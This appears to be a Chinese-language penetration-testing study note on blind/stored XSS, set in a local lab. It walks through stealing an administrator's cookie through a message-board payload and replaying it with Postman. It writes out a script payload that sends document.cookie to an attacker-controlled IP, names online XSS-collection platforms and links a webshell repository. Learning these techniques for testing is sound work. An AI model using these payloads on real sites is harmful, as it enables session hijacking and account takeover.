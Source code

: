 ![](https://gitee.com/YatJay/image/raw/master/img/202203022011002.png)

# 涉及知识

## XSS漏洞利用的要点

### XSS的核心

网站管理者后台会查看我们提交的数据，抓住这一点，这一点就是成为跨站攻击的点

### XSS应用场景

- 留言板
- 评论区
- 订单系统
- 反馈条件等

## XSS平台及工具使用

### 在线XSS平台

https://xss.pt/xss.php——优先

https://xss8.cc/——有时没有响应

也可参考《Web安全攻防：渗透测实战指南》第二章的内容，自己搭建XSS平台

## Session与Cookie获取问题

### XSS获取到的Cookie不能直接用来登录网站后台

对比XSS获得的Cookie和管理员浏览器中直接拿到的Cookie

XSS平台中得到的Cookie

```
cookie : ant[uname]=admin; ant[pw]=10470c3b4b1fed12c3baac014be15fac67c6e815; PHPSESSID=cd5380a5bb4c679e5c76da76891b16b3
```

使用此Cookie成功登录pikachu的XSS盲打后台

![](https://gitee.com/YatJay/image/raw/master/img/202203041443036.png)

管理员浏览器直接获取到的Cookie值

```
Cookie
ant[uname]=admin; ant[pw]=10470c3b4b1fed12c3baac014be15fac67c6e815; PHPSESSID=cd5380a5bb4c679e5c76da76891b16b3
```

使用此Cookie也可以成功登录pikachu的XSS盲打后台

以上测试，两种方法得到的Cookie值无差别，但是**有时XSS获取到的Cookie值相比直接拿到的Cookie值，会缺少一个字段，即PHPSESSID字段(JSP脚本网站则为JSPSESSID)**

如果目标网站使用Session进行验证，那么盗取Cookie进行攻击登录是无效的，如果XSS接收不到PHPSESSID值，就无法登录管理员后台。比如删除PHPSESSID字段后进行登录后台失败

![](https://gitee.com/YatJay/image/raw/master/img/202203041455887.png)

一般地，若使用SESSION进行用户验证，会在后台代码中写明，比如jfdd的管理员验证部分代码如下

```php
<?php 
session_start(); //要验证SESSION，看是不是管理员
if($_SESSION["admin"]!="jfdd"){

	echo "<script>location.href='../';</script>";
    exit;
}
?>
```

#### PHPSESSID字段的获取——配合读取phpinfo等信息源码等

如果对方服务器使用Session验证，无法通过XSS一次性得到PHPSESSID，则在对方服务器构造phpinfo页面，当中提到Cookie值时会记录PHPSESSID值，可以为我们所用

![](https://gitee.com/YatJay/image/raw/master/img/202203041502641.png)

具体思路为让对方的跨站漏洞访问我们构造的phpinfo文件，将访问结果返回，读取返回结果后获得PHPSESSID，在线XSS平台也具备此功能即返回页面源码模块

![](https://gitee.com/YatJay/image/raw/master/img/202203041506773.png)

用此模块提供的脚本，访问我们上传的phpinfo页面并返回结果，从返回结果中得到PHPSESSID，但是此方法比较鸡肋。

# 演示案例

## 某营销订单系统XSS盲打—平台

配置环境：在本地网站根目录，按照说明，安装军锋真人CS野战在线预订系统安装程序V1.0

![](https://gitee.com/YatJay/image/raw/master/img/202203031030361.png)

在线XSS平台https://xss.pt/xss.php，注册并创建新项目，只勾选默认模块即可

找一个获取XSS语句，本XSS目的是获取网站管理员Cookie

![](https://gitee.com/YatJay/image/raw/master/img/202203031753781.png)

复制XSS语句粘贴到目标网站留言板，提交留言

![](https://gitee.com/YatJay/image/raw/master/img/202203031754213.png)

到管理员后台查看，查看前端代码，可见已经触发XSS语句

![](https://gitee.com/YatJay/image/raw/master/img/202203031757544.png)

在XSS平台可以看到获取到了管理员Cookie

![](https://gitee.com/YatJay/image/raw/master/img/202203031758896.png)

## 工具Http/s数据包提交Postman使用

接上述获取到的Cookie，使用Postman工具，利用Cookie进行登录

这里我们使用本地浏览器的原始Cookie值而不是XSS平台中获取到的Cookie值(原因后面再说，此处演示使用Postman带Cookie值进行访问的流程)

复制本地浏览器原始Cookie

![](https://gitee.com/YatJay/image/raw/master/img/202203031811439.png)

使用Postman工具带Cookie值(浏览器原始Cookie值)进行访问

![](https://gitee.com/YatJay/image/raw/master/img/202203031814002.png)

点击send进行访问，可以成功进入管理员后台

![](https://gitee.com/YatJay/image/raw/master/img/202203031815539.png)

**注意**：此处带Cookie值访问网站后台使用的是从(管理员的)浏览器获得的原始Cookie，而非在XSS平台收到的Cookie值。仅做带Cookie访问网站后台的演示操作，原因后续讲解。

## 不使用在线XSS平台—手写代码

获取Cookie的核心代码为`document.cookie`的值，只需提交XSS脚本使得目标网站把`document.cookie`的结果返回到攻击者的机器上

前台如留言板提交的XSS脚本示例如下：

```js
<script>location.href="http://192.168.132.144/cookie.php?cookie="+document.cookie</script>
```

意思是将目标网站的Cookie值，以GET方式提交到攻击者主机`192.168.132.144`的`cookie.php`文件，由`cookie.php`来处理捕获的Cookie信息

在攻击方查看cookie.php的处理结果，比如是将收到的Cookie值写入某个文件当中等

详细见：[XSS提取cookie到远程服务器](https://blog.css8.cn/post/13058394.html)

## 某Shell箱子系统XSS盲打—工具

00:34:00–01:02:00

## Kali Linux的Beef-Xss漏洞利用框架的使用

见于补充内容中的工具使用目录下，如下链接

[Kali Linux的Beef-Xss漏洞利用框架的使用](../Part0 补充内容/03_工具使用/Kali的BeEF-XSS安装与使用)

# 涉及资源

http://xss.fbisb.com/

https://github.com/tennc/webshell

https://www.postman.com/downloads/

XSS-订单系统.zip (428 KB) ：https://pan.baidu.com/s/1lIUZvEVXs1du-Bmkt7-abA 提取码：xiao 

WEBSHELL箱子系统V2.0.rar (65 KB)：https://pan.baidu.com/s/13H4N1VTBVwd3t8YWpECBFw 提取码：xiao 
